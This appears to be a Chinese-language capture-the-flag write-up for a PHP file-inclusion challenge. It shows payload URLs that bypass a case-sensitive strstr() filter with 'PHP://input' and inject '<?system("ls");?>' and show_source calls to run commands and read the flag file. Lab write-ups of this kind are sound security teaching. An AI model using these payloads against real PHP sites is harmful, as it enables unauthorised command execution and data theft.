

# Web_php_include
## 题目描述
暂无
## 思路
http://220.249.52.133:35160  
点开题目链接，看到一堆 php 源码：  
  
### 方法一
分析一下可以发现，php:// 被过滤了，但是问题不大，因为 strstr() 函数是区分大小写的，因此，我们可以用大写的 PHP 绕过 strstr() 的过滤。因此，构造 url，并 post 执行系统命令的参数：  
http://220.249.52.133:35160/?page=PHP://input  
  
然后发现了 flag 的线索：  
  
我们尝试访问一下这个文件：  
  
得到 flag：  
  
### 方法二
直接构造合适的 url，先给 hello 赋值（想要运行的命令），然后让带有已被赋值的 hello 的 index.php 运行：  
http://220.249.52.133:35160/?page=http://127.0.0.1/index.php/?hello=<?system("ls");?>  
  
http://220.249.52.133:35160/?page=http://127.0.0.1/index.php/?hello=<?show_source("fl4gisisish3r3.php");?>  
  
这里存在一个问题，即为什么第二个链接不能是 ?hello=<?system("cat fl4gisisish3r3.php");?>。与朋友讨论后认为，这是在浏览器端进行了 url 编码，而在服务器端没有进行 url 解码造成的。  

## 相关知识
1. 关于 php://input  
  
